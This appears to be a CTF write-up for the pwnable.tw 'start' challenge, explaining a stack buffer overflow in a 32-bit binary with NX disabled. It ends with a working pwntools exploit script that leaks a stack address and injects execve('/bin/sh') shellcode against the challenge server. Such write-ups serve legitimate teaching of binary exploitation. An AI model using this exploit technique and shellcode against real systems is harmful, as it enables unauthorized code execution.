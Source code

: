 +++
title = "pwnable.tw - start"
date = 2019-11-22T18:30:01.515Z
updated = 2019-11-23T19:32:29.189Z
aliases = ["/posts/5cfff3292569df08a43d04cc-pwnabletw-start"]
[taxonomies]
tags = ['pwnable.tw', 'binary-exploitation', 'pwntools', 'shellcode']
categories = ["ctf-writeups"]
+++

We are given a linux binary. To start off, lets run `checksec` on it:

```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

It looks like NX is disabled, so if needed, we can place and execute shell code from the stack. To understand how this 
binary works, I opened it with `Ghidra`. There are only two functions, `_entry` and `_exit`. Let's look at `_entry` first. 
Although the decompilation is mostly useless, the disassembly is more than enough.


![](5cff109009821b08235e212a.png)

We can see two `int 0x80`s that are syscalls. Looking at the value of `eax` and by referencing a 
[32-bit syscall table](https://www.informatik.htw-dresden.de/~beck/ASM/syscall_list.html), we can identify them. The 
reversed syscalls are shown in comments in the above screenshot. It's also clear that we control `EIP` due to the large 
` read` syscall that will overflow into the save return address on the stack.

As we saw earlier, the `NX` bit is disabled, so we can jump to our shellcode. To do so, we need to leak a stack address 
to identify where to jump to. Using [pwndbg](https://github.com/pwndbg/pwndbg), it's easy to watch the stack during 
execution.

<!-- more -->

![](5cff13e309821b08235e212c.png)

The first value that is pushed onto the stack is `ESP` (`0x8048060`). If we were to read past the values pushed onto the 
stack, we'll be able to leak a stack address. What happens if we return to `0x8048087`? Since the `ADD ESP, 0x14` before 
the `RET` will clear the stack, the `write` syscall will print out a stack address. After leaking the stack address, we 
know that we will write our shell code 20 bytes after the base pointer. We need to return to `ESP + 0x14`. Let's try it 
out.

I'll use `pwntools` to ease communications with the binary. 

```Python

from pwn import *

context.terminal = '/bin/sh'


WRITE_ADDR = 0x8048087

r = remote('chall.pwnable.tw', 10000)

r.recvuntil(':')


payload =  'A'*0x14        # Padding
payload += p32(WRITE_ADDR) # Overwrite EIP with the write syscall

r.write(payload)

LEAKED_ADDR = u32(r.read(400)[:4])

log.info("Leaked address 0x%x" % LEAKED_ADDR)

from binascii import unhexlify
# http://shell-storm.org/shellcode/files/shellcode-811.php
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

payload =  'A'*0x14
payload += p32(LEAKED_ADDR + 0x14)
payload += shellcode
payload += 'ls\n'
r.write(payload)

r.interactive()
```

This gives us a shell, and if we explore the server, we will find the flag in `/home/start/flag`.
